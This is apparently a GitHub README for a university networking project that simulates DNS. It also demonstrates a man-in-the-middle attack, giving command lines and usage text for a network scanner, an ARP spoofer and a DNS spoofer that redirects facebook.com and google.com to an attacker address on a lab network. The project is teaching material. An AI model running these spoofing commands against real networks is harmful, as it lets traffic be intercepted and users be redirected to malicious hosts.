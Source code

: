 # DNS simulation
This project is part of a university curriculum which is *Basic Networking Programming*.  
> Author:  
> [*Dat Thinh*](https://github.com/datthinh1801)  
> [*Xuan Ninh*](https://github.com/xuanninh1412)  
> [*Minh Tien*](https://github.com/mt2651)

# Introduction
This project has 2 main features.  
1. Simulate DNS protocol  
2. Illustrate a Man-In-The-Middle attack to spoof DNS reponses from the **Resolver** to the **User**, this is called **DNS Spoofing**.

## Dependencies
- `scapy` (for python 3.9)
- `dnspython` (for python 3.9)
- `netfilterqeuue` (for python 2.7)

# Instruction
## DNS protocol simulation
### Resolver and Nameserver
In this project, **Resolver** and **Nameserver** are operated on the same machine, which we activate them in the `main.py`. Therefore, to run these components, just run the `main.py` file with the command `python3 main.py`.  
### User
In order for the **User** to make a query, run the `UserScript.py`.  
For more information, execute the script with `-h` option (`python3 UserScript.py -h`).  
```
usage: .\UserScript.py [-h] -d [QNAME] [-t [QTYPE]] [-c [QCLASS]] --ip [IP] --port [PORT] [--protocol [PROTOCOL]]

Parse DNS arguments from CLI

optional arguments:
  -h, --help            show this help message and exit
  -d [QNAME], --domain [QNAME]
                        the domain name to be queried
  -t [QTYPE], --type [QTYPE]
                        the type of the query (A by default)
  -c [QCLASS], --class [QCLASS]
                        the class of the query (IN by default)
  --ip [IP]             IP address of the resolver
  --port [PORT]         port number that the resolver is listening
  --protocol [PROTOCOL]
                        tcp/udp (udp by default)
```

## DNS Spoofing
### Network Scanner
To be the man in the middle, we need to know the IP addresses of our 2 targets. For this reason, run the `network_scanner_manual.py` script with the `-t` option to specify the IP range of the network that we want to scan. The outcome of this script will be the ***IP addresses*** as well as ***MAC addresses*** of **all hosts** in the targeted network.  
Use the `-h` option to see the help message.
```
usage: network_scanner_manual.py [-h] -t [TARGET]

optional arguments:
  -h, --help            show this help message and exit
  -t [TARGET], --target [TARGET]
                        IP address of a target host or an IP range of a target network
```
### ARP Spoofer
After having the IP addresses of our targets, run the `ARP_spoofer.py` script and specify the IP addresses of our 2 targets to start spoofing them. This spoof takes advantages of **ARP** to deceive both targets.  
For more information, use the `-h` option to see the help message.
```
usage: ARP spoofer [-h] -t TARGET_IP -g GATEWAY_IP

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_IP, --target TARGET_IP
                        the IP address of the target machine
  -g GATEWAY_IP, --gateway GATEWAY_IP
                        the IP address of the default gateway
```  
> Originally, this tool was developed to spoof a host and a default gateway. However, this can be run to spoof 2 arbitrary hosts in the same network. If that is the case, we can use `-t` and `-g` interchangeably to specify our 2 targets.  

### DNS Spoofer
Once we become the man in the middle, we can run `DNS_Spoofer.py` to spoof DNS response from Resolver to User.  
For more information, use the `-h` option to see the help message.
```
usage: DNS Spoofer [-h] -t TARGET DOMAIN [TARGET DOMAIN ...] -d
                   [DESTINATION IP ADDRESS] [-l [TRUE]]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET DOMAIN [TARGET DOMAIN ...], --target-domains TARGET DOMAIN [TARGET DOMAIN ...]
                        Domain names that we want to spoof
  -d [DESTINATION IP ADDRESS], --destined-domain [DESTINATION IP ADDRESS]
                        Our evil IP address that we want the victim to reach
  -l [TRUE], --local [TRUE]
                        Use this option if this script is run locally
```  
# An example demonstration
We run the `main.py` on a machine whose IP address is `10.0.0.5`.  
Then, we'll receive logs as followed:
```
[SERVER]         Listening for UDP connections at 10.0.0.5:5252...
[SERVER]         Listening for TCP connections at 10.0.0.5:5353...
[RESOLVER]       Listening for clients' requests at 10.0.0.5:9292...
```  
We run the `UserScript.py` to make a query for `facebook.com`. Here, we run this script on a machine whose IP address is `10.0.0.7`.
```
python3 UserScript.py -d facebook.com --ip 10.0.0.5 --port 9292
```
The result in return is `facebook.com.;1;1;205;69.171.250.35`. The last part of the reponse (`69.171.250.35`) is the IP address of `facebook.com`.  
In addition, if we examine the resolver's log, we can see a message specifying that the resolver has received a request from a user. 
```
[RESOLVER]       Receive a request for facebook.com;A;IN from ('10.0.0.7', 49775) using UDP
```
> If we want to specify the Resolver to make a query to the Nameserver via TCP, we need to execute the script with the `--protocol tcp` option.
### Now, let's do some hacking.  
First and foremost, as we already know the IP addresses of the machines that run the `main.py` and `UserScript.py`, it is unnecessary to run the `network_scanner_manual.py`.  
Next, we need to run the `ARP_spoofer.py` to make us become the man in the middle between the Resolver and User.
```
sudo python3 ARP_spoofer.py -t 10.0.0.7 -g 10.0.0.5
# or
sudo python3 ARP_spoofer.py -t 10.0.0.5 -g 10.0.0.7
# either is ok
```
If the script is executed successfully, a successful message will be printed on the console.
```
[+] Spoof ['10.0.0.5'] and ['10.0.0.7'] successfully!
```

Finally, run our `DNS_spoofer.py`.
```
sudo python DNS_spoofer.py -t facebook.com google.com -d 10.0.0.10
```
Here, we specify the domains that we want to spoof. In this example, we will spoof any responses that carry the IP addresses of `facebook.com` and `google.com`.  
These IP addresses will be changed to the one specified by the `-d` option, which is `10.0.0.10` in this example.  
  
Now let's come back to the machine that runs `UserScript.py` and make a query for `facebook.com` again.
```
python3 UserScript.py -d facebook.com --ip 10.0.0.5 --port 9292
```

This time, the response is `facebook.com.;1;1;205;10.0.0.10` which carries the spoofed IP address specified by our `DNS_spoofer`.  
But if we make a query for `youtube.com`, the response is not spoofed (`youtube.com.;1;1;43;172.217.31.238`).
